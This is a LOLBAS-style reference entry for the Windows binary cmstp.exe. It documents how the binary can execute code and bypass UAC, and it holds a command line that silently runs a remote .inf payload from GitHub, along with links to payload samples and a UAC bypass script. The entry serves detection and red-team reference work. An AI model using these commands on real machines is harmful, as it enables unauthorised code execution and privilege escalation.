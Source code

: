 ## Cmstp.exe

* Functions: Execute, UACBypass

```
cmstp.exe /ni /s c:\cmstp\CorpVPN.inf     

cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payloads/Cmstp.inf     
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe
* Nick Tyrer - @NickTyrer

Code sample:
* [Cmstp.inf](Payloads/Cmstp.inf)    
* [Cmstp_calc.sct](Payloads/Cmstp_calc.sct)

Resources:
* https://twitter.com/NickTyrer/status/958450014111633408    
* https://gist.github.com/NickTyrer/bbd10d20a5bb78f64a9d13f399ea0f80     
* https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e
* https://oddvar.moe/2017/08/15/research-on-cmstp-exe/
* https://gist.githubusercontent.com/tylerapplebaum/ae8cb38ed8314518d95b2e32a6f0d3f1/raw/3127ba7453a6f6d294cd422386cae1a5a2791d71/UACBypassCMSTP.ps1 (UAC Bypass)
* https://github.com/hfiref0x/UACME

Full path:
```
C:\Windows\system32\cmstp.exe
C:\Windows\sysWOW64\cmstp.exe
```

Notes:



 